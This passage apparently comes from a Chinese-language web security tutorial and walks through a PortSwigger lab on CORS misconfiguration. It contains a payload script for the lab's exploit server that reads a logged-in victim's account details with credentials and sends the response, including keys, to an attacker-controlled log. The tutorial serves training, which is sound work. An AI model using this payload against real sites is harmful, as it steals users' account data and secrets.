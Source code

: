 图 9.17 – 显示来源的响应头

1.  在浏览器顶部的实验中，点击 `Go to exploit server` 并输入以下有效负载 HTML 脚本。确保将 `<random-string>` 替换为首次启动实验时生成的唯一实验 URL：

    ```
     <script>
    ```

    ```
     var req = new XMLHttpRequest();
    ```

    ```
     req.onload = reqListener;
    ```

    ```
     req.open('get','https://<random-string>.web-security-academy.net/accountDetails',true);
    ```

    ```
     req.withCredentials = true;
    ```

    ```
     req.send();
    ```

    ```
     function reqListener() {
    ```

    ```
     location='/log?key='+this.responseText;
    ```

    ```
     };
    ```

    ```
     </script>
    ```

在 *图 9.18* 中，我们看到实验室头部，显示了 `Go to exploit server` 按钮和 `Submit solution` 按钮，用于解决实验：

![图 9.18 – 链接到漏洞利用服务器](img/Figure_9.18_B18829.jpg)

图 9.18 – 链接到漏洞利用服务器
